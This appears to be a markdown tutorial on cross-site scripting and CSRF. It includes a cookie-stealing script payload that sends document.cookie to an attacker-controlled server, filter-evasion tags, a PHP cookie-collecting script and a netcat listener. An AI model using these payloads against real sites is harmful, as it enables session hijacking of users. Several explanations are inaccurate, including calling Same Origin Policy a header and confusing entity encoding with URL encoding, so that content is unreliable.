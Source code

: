 # Cross-Site Scripting (XSS)

### What is XSS?
XSS is a client side vulnerability that targets users by injecting client-side scripts into the webpage/application to perform malicious attacks. XSS occurs when user input is output onto a page without correctly having it's encoding escaped. This causes the browser to execute these scripts when the page loads as it is unaware that it shouldn't be trusted. It is commonly used to steal users session cookies `document.cookie` or make requests from the users client. 

### What does XSS Look Like?
XSS is commonly just malicious javascipt contained within a HTML script tag and targetting the users cookie such as `<script>document.write("https://www.yourserver.com/?cookie="+document.cookie)</script>`. This payload makes a request to a server that the attacker owns, appending the users session cookie in the URL request. It is important to have a server or endpoint that you control to collect the cookies. This type of payload is not always possible and sometimes filtering bypasses will be required.

### Types of XSS

##### Reflected XSS
Reflected XSS occurs when an input field or URL parameter is reflected back onto the page. A common example of this is a searched phrase being display on the search results page. In this case an attacker may send a link to a victim where the search query is an xss payload.

`www.website.com/?search=<script>{xss_payload}</script>`

##### Stored XSS
Stored XSS is when the XSS payload is stored server-side before being reflected onto the client. In this case stored XSS is persistant and affects every user visiting webpages where the XSS payload is displayed. A common example of this is an attacker inserting an XSS payload into a message/comments field and posting it. This payload is then stored and visible to multiple users who view the message.

### Where to find XSS?
XSS can potentially occur wherever there is user controlled input. 
- Input Fields (Including Hidden Fields)
- URL Paramaters or Just in the URL in general

### XSS Filtering
Sometimes simple XSS payload wont work as applications use filtering techniques in an attempt to prevent XSS. When this occurs it is important to be creative as in most cases XSS can be work. There are a couple of techniques to consider and try.

- Try URL encoding the symbols so that `<script>` becomes `&lt;script&gt;` 
- You can also use other HTMl tags other than script, such as `<img src="javascript:{payload};">`
- On error is also another place you can try as it isn't always considered and javascript can just run without being specified `<img scr=nothing onerror="{javascript_xss_payload">`

##### Other Resources
- [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [XSS Shortening Cheatsheet](https://labs.neohapsis.com/2012/04/19/xss-shortening-cheatsheet) 

### CSRF
CSRF stands for Cross-Site-Request-Forgery and is a type of attack that targets authenticated users where the attacker gets the user to make a malicious request on their behalf. Since the user is authenticated and is the one making the request it is seen as valid by the server. This can be done by getting the user to visit a malicious page that makes the request using the cookie for the targeted site. However this is not always possible as sometimes web applcations use Same Origin Policy and CSRF tokens to prevent this attack. However if you mange to find an XSS within the web application itself then you can bypass both of these prevention techniques.

##### Same Origin Policy
Same Origin Policy is a header field that specifies what content is allowed to render on the page. It is important as it mitigates the impact of XSS as scripts will now no longer run or make calls to URL's not belonging to the same domain the web application is hosted on. This makes it impossible for users to steal credentials through XSS as well ruling out some filtering techniques. It is important to realise that XSS is still possible if you can inject a script into the web application and perform a CSRF attack.

### Attacker Server (Collecting Cookies)
In order to steal users session cookies you will require a server or endpoint that you control to send the cookies to. This can be done multiple ways, hosting a simple web server either in python or nodejs that just grabs the URL request and appends it to a file. Below are examples of a php script that can be used, it is good as the server doesn't have to actually run and a netcat command that can be used to listen to requests. [XSS Hunter](https://xsshunter.com/) is also a good alternative that can be used if setting up a server is difficult. It provides a custom URL that you can used to view the requests made to the url to collect info.

##### PHP Server
```
<?php
file_put_contents("user_session_cookies.txt", $_GET["cookie"]."\n", FILE_APPEND);
?>
```
##### Netcat
`nc -l 80`